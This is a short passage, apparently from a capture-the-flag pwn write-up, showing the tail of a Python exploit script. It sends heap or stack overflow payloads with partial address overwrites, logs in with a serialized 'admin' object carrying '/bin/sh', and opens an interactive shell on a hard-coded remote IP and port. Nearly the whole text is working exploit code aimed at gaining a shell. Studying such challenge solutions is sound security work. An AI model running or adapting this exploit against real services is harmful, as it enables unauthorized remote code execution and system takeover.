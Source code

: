 ```python
    
    clear(0x10)
    payload = b'a'*0x248 + b'b'*0x10 + b'\x8a\xdb\x5b'
    new_pwn(payload)
    
    clear(0x8)
    payload = b'a'*0x248 + b'b'*0x08
    new_pwn(payload)
    
    clear(0x0)
    payload = b'a'*0x248 + b'b'*0x00 + b'\x4f\x45\x40'
    new_pwn(payload)
    
    pause()
    io.recvuntil('Login:')
    person = pwn()
    person.username = b'admin'
    person.password = b'admin'
    payload = person.SerializeToString() + b'\x00' + b'/bin/sh\x00'
    io.send(payload)
    
    
    io.interactive()

if __name__ == '__main__':
    exp(1,'210.30.97.133',28091)
```

